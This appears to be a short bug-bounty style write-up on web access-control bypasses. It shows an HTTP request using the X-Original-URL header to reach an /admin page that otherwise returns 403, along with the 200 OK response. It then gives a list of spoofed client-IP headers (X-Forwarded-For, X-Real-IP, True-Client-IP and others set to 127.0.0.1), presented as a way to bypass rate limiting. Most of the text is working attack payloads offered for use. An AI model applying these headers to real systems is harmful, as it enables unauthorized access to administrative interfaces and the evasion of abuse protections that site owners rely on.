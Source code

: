 While doing Recon I spotted something juicy…

> `https://admin.target.com`

I hit `/admin` into the endpoint and boom.

### 403 Forbidden The Wall

 some web servers — especially when behind **reverse proxies** like **NGINX or HAProxy** — sometimes **trust specific HTTP headers** to identify internal users or requests.

So, I began playing with some common **bypass headers** in Burp Suite.

### I sent this:

```http
GET /admin HTTP/1.1
Host: admin.target.com
X-Original-URL: /admin
```

### And got back:

```http
HTTP/1.1 200 OK
Content-Type: text/html
<title>Admin Dashboard</title>
```

That's it. That's the hack.

One line:

```http
X-Original-URL: /admin
```

— — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — — 
# **How to Bypass Rate Limiting?**

Rate Limit protections can be bypassed by putting following headers in the request:

```http
X-Forwarded-For:127.0.0.1

X-Forwarded:127.0.0.1

Forwarded-For:127.0.0.1

Forwarded:127.0.0.1

X-Forwarded-Host:127.0.0.1

X-remote-IP:127.0.0.1

X-remote-addr:127.0.0.1

True-Client-IP:127.0.0.1

X-Client-IP:127.0.0.1

Client-IP:127.0.0.1

X-Real-IP:127.0.0.1

Ali-CDN-Real-IP:127.0.0.1

Cdn-Src-Ip:127.0.0.1
```